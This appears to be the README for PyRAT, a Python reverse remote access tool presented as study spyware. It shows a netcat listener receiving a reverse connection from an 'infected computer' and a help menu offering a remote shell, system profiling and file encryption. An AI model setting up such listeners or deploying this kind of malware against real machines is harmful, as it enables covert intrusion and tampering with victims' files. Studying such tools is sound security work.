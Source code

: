 <h1 align="center">PyRAT</h1>
<p align="center">Python Remote Access Tool</p>
<p align="center">Reverse Remote Access Tool written in Python for study purpose.</p>
<p align="center"> 
   <img src="https://img.shields.io/badge/language-python-blue.svg">
</p>
<p align="center">Tested on Linux.</p>

---

### Disclaimer
Usage of this malware (PyRAT) for attack targets without prior mutual consent is illegal. 
It is the end user's responsability to obey all applicable local, state, federal and international laws. 
Developer assume no liability and not responsible for any misuse or damage caused by this program.

---

## Use netcat to receive connection.
```
$ nc -lvp 4444

Listening on 0.0.0.0 4444
Connection received on localhost 39978
Connection Estabilished!
PyRAT 1.1
Host: kali
Say Hi!

cmd>
```

## Help Menu
```
cmd> help

Help Menu:
----------
help  | Help menu.
exit  | Break connection but keep running.
close | Close connection and stop.
    
sysinfo | System Information.
pyinfo  | Python Information.
shell   | Spawn shell.
    
genkey  | Generate key.
encry   | Encrypt file.
          Usage: encry /path/to/the/file key
decry   | Decrypt file.
          Usage: decry /path/to/the/file key
cmd>
```
---

## About 
PyRAT comes with the objective of studying some processes and possibilities in a simple spyware malware in python.


## Features
Some information about python installed on the infected computer can be obtained typing the command `pyinfo`.
As well as information about the system can `sysinfo`.


